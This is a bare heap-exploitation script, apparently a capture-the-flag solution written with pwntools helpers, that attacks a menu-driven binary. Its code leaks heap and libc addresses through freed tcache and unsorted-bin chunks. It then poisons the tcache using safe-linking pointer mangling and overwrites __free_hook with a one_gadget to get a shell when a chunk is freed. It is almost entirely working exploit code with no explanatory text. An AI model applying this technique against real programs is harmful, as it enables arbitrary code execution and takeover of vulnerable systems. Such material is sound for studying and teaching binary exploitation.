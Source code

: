 ```bash
def add(idx,size):
    sla('>',str(1))
    sla('Index: ',str(idx))
    sla('Size: ',str(size))


def delete(idx):
    sla('>',str(2))
    sla('Index: ',str(idx))

def show(idx):
    sla('>',str(4))
    sla('Index: ',str(idx))

def edit(idx,content):
    sla('>',str(3))
    sla('Index: ',str(idx))
    sa('Content: ',content)


def duan():
    gdb.attach(p)
    pause()


for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)

for i in range(1,7):
    delete(i)

delete(7)

edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)

free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
system=libc_base+libc.sym["system"]
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)

pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))

add(9,0x80)
add(10,0x80)
edit(10,p64(og))
delete(0)


```